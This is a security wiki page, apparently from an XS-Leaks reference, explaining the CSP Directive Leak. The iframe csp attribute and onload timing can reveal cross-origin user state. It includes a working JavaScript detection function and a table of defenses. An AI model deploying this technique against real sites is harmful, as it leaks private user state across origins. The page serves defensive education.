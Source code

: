 +++
title = "CSP leaks"
description = ""
category = "Attack"
abuse = [
    "CSP Violations",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

## CSP Directive Leak

iframe elements have a csp attribute which specifies the [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) that an embedded document must agree to enforce upon itself. 

Without using the `Allow-CSP-From` header an embedder is not allowed to set a more restrictive policy on to an iframe,
For most directives so by trying to apply `img-src 'https://example.com';` to the iframe csp attribute it will refuse to load unless it’s only allowing images from that source this can be detected with the onload event. [Run demo](https://xsinator.com/testing.html#CSP%20Directive%20Leak)

This can be abused if csp attrbutes are set conditionally on user state and embedding is allowed.

```javascript
async function ifResticts(URL, csp) {
    return new Promise((r) => {
        let f = document.createElement('iframe');
        f.setAttribute('csp', csp);
        f.hidden = true;
        f.src = URL;
        f.onload = () => {
            f.onload = () => {
                f.remove();
                return r(0);
            }
            f.src = URL + '#';
        }
        let t = setTimeout(() => {
            f.remove();
            return r(1);
        }, 2000);
        document.body.append(f);
    });
}
```
{{< hint info >}}
As of November 2021, Firefox doesn't support the csp attribute for an [iframe](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/csp).
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ✔️                                         |                         ❌                          |                                ✔️                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
